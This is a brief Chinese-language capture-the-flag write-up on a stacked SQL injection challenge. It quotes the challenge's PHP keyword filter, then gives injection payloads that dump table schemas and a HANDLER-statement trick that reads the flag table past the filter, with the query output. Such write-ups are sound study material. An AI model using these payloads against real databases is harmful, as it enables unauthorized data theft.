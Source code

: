 这题让我学到一个骚操作和看到一篇好文章

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

利用堆叠注入查询

```
array(1) {
  [0]=>
  string(8) "FlagHere"
}

array(1) {
  [0]=>
  string(5) "words"
}
```





```
1';show create table words;#
array(2) {
  [0]=>
  string(5) "words"
  [1]=>
  string(114) "CREATE TABLE `words` (
  `id` int(10) NOT NULL,
  `data` varchar(20) NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8"
}


1';show create table FlagHere;#
array(2) {
  [0]=>
  string(8) "FlagHere"
  [1]=>
  string(93) "CREATE TABLE `FlagHere` (
  `flag` varchar(100) NOT NULL
) ENGINE=MyISAM DEFAULT CHARSET=utf8"
}
```



利用handler来读取数据

` 1';handler FlagHere open;handler FlagHere read first;#`



### flaskapp

